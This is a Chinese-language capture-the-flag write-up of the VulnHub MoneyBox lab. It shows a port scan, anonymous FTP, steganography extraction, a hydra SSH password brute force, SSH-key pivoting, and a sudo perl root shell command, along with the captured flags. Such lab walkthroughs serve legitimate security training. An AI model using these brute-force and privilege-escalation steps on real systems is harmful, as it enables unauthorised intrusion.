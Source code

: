 # MoneyBox: 1

2024-5-24 https://www.vulnhub.com/entry/moneybox-1,653/

difficulty: Easy

## IP

192.168.5.29

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.5.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
```

ftp 21 端口可以匿名登陆，登陆后发现一张图片，下载到 kali 上进行查看，是一个猫图，binwalk 和 strings 没查出特殊的信息。

看 80 web 服务，首页是个提示信息，使用 gobuster 进行扫描：

```
http://192.168.5.29/blogs
```

源代码中发下提示：

```
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

访问这个提示的目录 http://192.168.5.29/S3cr3t-T3xt/ 继续查看源代码：

```
<!..Secret Key 3xtr4ctd4t4 >
```

显示了一个密码，尝试后，不是路径，能不能是上面图片中的隐写密码，使用 steghide 进行解密：

```
steghide info trytofind.jpg

"trytofind.jpg":
  format: jpeg
  capacity: 64.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "data.txt":
    size: 136.0 Byte
    encrypted: no
    compressed: no

```

发现有嵌入文件 data.txt，进行解压：

```
steghide extract -sf trytofind.jpg

Enter passphrase:
wrote extracted data to "data.txt".
```

data.txt 中的内容：

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

提到一个用户 renu , 说密码为弱密码，使用 hydra + rockyou 进行尝试爆破，找到密码:987654321

ssh 进行登陆，找到了第一个 flag：

```
renu@MoneyBox:~$ cat user1.txt
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

查看 .bash_history 发现 renu 把 ssh 密钥拷贝到 lily 账户下：

```
renu@MoneyBox:~$ cat .bash_history

ssh-copy-id lily@192.168.43.80
```

尝试登陆到 lily：

```
ssh lily@127.0.0.1
```

登陆后，发现了第 2 个 flag：

```
lily@MoneyBox:~$ cat user2.txt
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

查看 lily 的 sudo 权限，发现：

```
(ALL : ALL) NOPASSWD: /usr/bin/perl
```

可以直接提权到 root：

```
sudo perl -e 'exec "/bin/sh";'

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
# ls -al
total 28
drwx------  3 root root 4096 Feb 26  2021 .
drwxr-xr-x 18 root root 4096 Feb 25  2021 ..
-rw-------  1 root root 2097 Feb 26  2021 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Feb 25  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  228 Feb 26  2021 .root.txt
# cat .root.txt

Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box

instagram : ____kirthik____

See You Back....
```
